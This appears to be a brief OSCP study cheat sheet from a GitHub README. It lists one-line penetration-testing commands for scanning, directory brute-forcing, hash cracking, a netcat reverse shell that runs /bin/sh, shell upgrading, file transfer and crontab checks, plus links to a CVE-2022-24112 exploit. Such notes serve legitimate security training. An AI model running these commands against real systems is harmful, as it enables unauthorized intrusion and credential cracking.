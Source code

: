 # OSCP
Offensive Security Certified Professional is an ethical hacking certification offered by Offensive Security that teaches penetration testing methodologies and the use of the tools included with the Kali Linux distribution.
# Enumeration
## NMAP
nmap -sV -sS 127.0.0.1 (all ports)
## Nikto
nikto -h 127.0.0.1
## SMB
## Gobuster
gobuster dir -e -w /usr/share/wordlists/dirb/common.txt -t 5 -u http://target.url -q
## Linpeas
## Winpeas
# Payloads
## Msfvenom
# Brute Force
# Cracking
## Hashcat (https://hashcat.net/wiki/doku.php?id=example_hashes)
hashcat -a 0 -m 1600 -w 2 --show hash.txt /usr/share/wordlists/rockyou.txt  
# Exploits
## Apache Apisix 2.8
(CVE-2022-24112)  
{"error_msg":"404 Route Not Found"}  
https://github.com/twseptian/cve-2022-24112
## Ladon Framework
(NO CVE)  
WSGIServer 0.1 (Python 2.7.16)  
https://www.exploit-db.com/exploits/43113  
https://www.youtube.com/watch?v=3XgGjEG0lLw  
# Shell
## Netcat (listener)
nc -lvnp 8080
## Netcat (sender)
nc 127.0.0.1 8080 -e /bin/sh
# Shell Upgrade
## Python
python -c 'import pty; pty.spawn("/bin/bash")'
# File Hosting
## Python
python3 -m http.server 8080
# File Transfer
## Curl (upload)
curl -T file.php -u 'username:password' http://target.url
## Wget (download)
wget 127.0.0.1/file
# File Permissions
## Chmod (make executable)
chmod +x target.file
# Privilege Escalation
## Crontab
cat /etc/crontab   

SHELL=/bin/sh  
PATH=/dev/shm:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin


